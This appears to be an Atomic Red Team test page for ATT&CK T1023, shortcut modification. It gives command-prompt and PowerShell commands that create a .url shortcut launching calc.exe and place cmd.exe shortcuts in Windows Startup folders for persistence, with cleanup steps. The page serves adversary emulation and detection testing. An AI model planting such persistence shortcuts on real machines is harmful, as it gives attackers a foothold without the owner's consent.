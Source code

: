 # T1023 - Shortcut Modification
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1023)
<blockquote>Shortcuts or symbolic links are ways of referencing other files or programs that will be opened or executed when the shortcut is clicked or executed by a system startup process. Adversaries could use shortcuts to execute their tools for persistence. They may create a new shortcut as a means of indirection that may use [Masquerading](https://attack.mitre.org/techniques/T1036) to look like a legitimate program. Adversaries could also edit the target path or entirely replace an existing shortcut so their tools will be executed instead of the intended legitimate program.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Shortcut Modification](#atomic-test-1---shortcut-modification)

- [Atomic Test #2 - Create shortcut to cmd in startup folders](#atomic-test-2---create-shortcut-to-cmd-in-startup-folders)


<br/>

## Atomic Test #1 - Shortcut Modification
This test to simulate shortcut modification and then execute. example shortcut (*.lnk , .url) strings check with powershell;
gci -path "C:\Users" -recurse -include *.url -ea SilentlyContinue | Select-String -Pattern "exe" | FL

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| shortcut_file_path | shortcut modified and execute | path | shortcutname.url|


#### Attack Commands: Run with `command_prompt`! 
```
echo [InternetShortcut] > test.url && echo URL=C:\windows\system32\calc.exe >> #{shortcut_file_path} && #{shortcut_file_path} >nul 2>&1
```






<br/>
<br/>

## Atomic Test #2 - Create shortcut to cmd in startup folders
LNK file to launch CMD placed in startup folder

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$Shell = New-Object -ComObject ("WScript.Shell")
$ShortCut = $Shell.CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\T1023.lnk")
$ShortCut.TargetPath="cmd.exe"
$ShortCut.WorkingDirectory = "C:\Windows\System32";
$ShortCut.WindowStyle = 1;
$ShortCut.Description = "T1023.";
$ShortCut.Save()

$Shell = New-Object -ComObject ("WScript.Shell")
$ShortCut = $Shell.CreateShortcut("$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\T1023.lnk")
$ShortCut.TargetPath="cmd.exe"
$ShortCut.WorkingDirectory = "C:\Windows\System32";
$ShortCut.WindowStyle = 1;
$ShortCut.Description = "T1023.";
$ShortCut.Save()
```

#### Cleanup Commands:
```
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\T1023.lnk" -ErrorAction Ignore
Remove-Item "$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\T1023.lnk" -ErrorAction Ignore
```





<br/>
